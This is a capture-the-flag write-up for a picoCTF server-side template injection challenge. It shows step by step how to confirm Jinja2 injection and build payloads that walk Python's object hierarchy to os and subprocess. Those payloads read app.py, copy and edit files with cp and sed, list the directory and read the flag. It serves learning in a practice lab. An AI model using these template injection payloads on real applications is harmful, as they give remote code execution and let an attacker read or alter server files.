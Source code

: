 ### SSTI 1
https://play.picoctf.org/practice/challenge/492

try {{7*7}}, we got 49 result, so maybe ssti jinja python

![alt text](image.png)

![alt text](image-2.png)

confirm python jinja2

![alt text](image-3.png)

using `${{<%[%'"}}%\.` template with ssti vulnerabily will throw 500 

![alt text](image-1.png)

so, let exploit

1. After indentify jinja 2, we got some:

Access some objection using (),'',[] + .__class__ (example ().__class__)

Access parent class object using ().__class__ + .__bases__[0] 

![alt text](image-4.png)

Access oobject subclass using ().__class__ + .__bases__[0] + .__subclasses__()

We found os.popen, can be exploit this. let try

![alt text](image-5.png)

But, if wanna using this, we just find number of os.wrap_close on list, so sent it to intruder and bruteforcing this

using payload to brute forcing

```
{{().__class__.__bases__[0].__subclasses__()[1]}}
```

using `payload-generate.py` we got, os.wrap_close() on 132 position of this list

![alt text](image-6.png)

![alt text](image-7.png)

And `subprocess.Popen` on `356` request

![alt text](image-8.png)

![alt text](image-10.png)

Next, __init__ is initializing method, we using this to call __globals__ (globals return all method, module, ...)

using `().__class__ + .__bases__[0] + .__subclasses__()` + `.__init__.__globals__` we got payload 

`{{().__class__ + .__bases__[0] + .__subclasses__()[132].__init__.__globals__}}`

Let's try : 

```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__}}
```

and try complete payload
```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__.__builtins__.open("app.py").read}}
```
![alt text](image-11.png)

readline to read first line of app.py

![alt text](image-12.png)

Use `subprocess.Popen` coppy `app.py` to new file `test.txt`

```python
{{[].__class__.__base__.__subclasses__()[356](["cp"].__add__(["app.py"]).__add__(["test.txt"]))}}
```

![alt text](image-13.png)

Using `132` read new file `test.txt`

![alt text](image-14.png) 

using `sed -i 1d` to delete first row

![alt text](image-15.png)

read test.txt and confirm it deleted

![alt text](image-16.png)

```python
{{().__class__.__base__.__subclasses__()[132].__init__.__globals__["o".__add__("s")].__dict__.listdir()}}
```

using `{{().__class__.__base__.__subclasses__()[132].__init__.__globals__['__builtins__']['__import__']('os').listdir('.')}}` 

list dir

![alt text](image-17.png)

we see flag here, lets read using 132

`{{().__class__.__base__.__subclasses__()[132].__init__.__globals__.__builtins__.open("flag").readline()}}`
Finally we got `picoCTF{s4rv3r_s1d3_t3mp14t3_....}`

### reference
https://www.arashparsa.com/gactf/
